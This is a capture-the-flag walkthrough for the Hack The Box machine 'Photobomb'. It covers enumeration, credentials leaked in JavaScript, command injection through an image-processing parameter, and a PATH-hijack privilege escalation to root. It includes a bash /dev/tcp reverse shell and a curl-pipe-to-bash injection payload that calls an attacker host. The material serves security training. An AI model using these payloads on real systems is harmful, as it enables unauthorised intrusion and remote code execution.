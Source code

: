 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.182
nmap -p 22,80 -sCV 10.10.11.182
```

### Host Mapping
```bash
echo "10.10.11.182 photobomb.htb" | sudo tee -a /etc/hosts
```

### Fuzz for Subdomains
```bash
ffuf -u http://10.10.11.182 -H "Host: FUZZ.photobomb.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

---

## 🌐 [Website Enumeration](HTTP.md)

### Locate JavaScript with Creds
Check source for:
```html
<script src="/static/photobomb.js"></script>
```

Look for:
```js
// Jameson: pre-populate creds for tech support...
'href','http://pH0t0:b0Mb!@photobomb.htb/printer'
```

### Feroxbuster Directory Scan
```bash
feroxbuster -u http://photobomb.htb -x php,html,txt \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

---

## ⚙️ Authenticated Image Panel

### Example POST Request for Image Processing
```http
POST /printer HTTP/1.1
Authorization: Basic cEgwdD...==  # Base64 of pH0t0:b0Mb!
Content-Type: application/x-www-form-urlencoded

photo=wolfgang.jpg&filetype=png&dimensions=1000x1000
```

---

## 💣 Command Injection via filetype Parameter

### POC: Confirm Injection
```bash
filetype=png;sleep+5
```

### Reverse Shell Payload
Start a listener:
```bash
nc -lnvp 443
```

Host this on your webserver as `shell.sh`:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

Send payload:
```http
filetype=png;curl+10.10.14.6/shell.sh|bash
```

---

## 🧑‍💻 Shell as `wizard`

### Stabilize Shell
```bash
script /dev/null -c bash
# CTRL+Z
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🚀 Privilege Escalation to Root

### Check Sudo Rights
```bash
sudo -l
# Output:
# (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

### Review `/opt/cleanup.sh`
```bash
cat /opt/cleanup.sh
```

Notable line:
```bash
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

---

## 🔓 Privesc Option 1 – PATH Hijack

### Create Fake `find` in Current Directory
```bash
echo -e '#!/bin/bash\nbash' > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

---

## 🔓 Privesc Option 2 – Bash Builtin `[`

### `.bashrc` disables builtin:
```bash
enable -n [  # disables Bash builtin [
```

### Exploit Disabled `[`
```bash
echo -e '#!/bin/bash\nbash' > [
chmod +x [
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

---

## 🏁 Flags

### User Flag
```bash
cat /home/wizard/user.txt
```

### Root Flag
```bash
cat /root/root.txt
```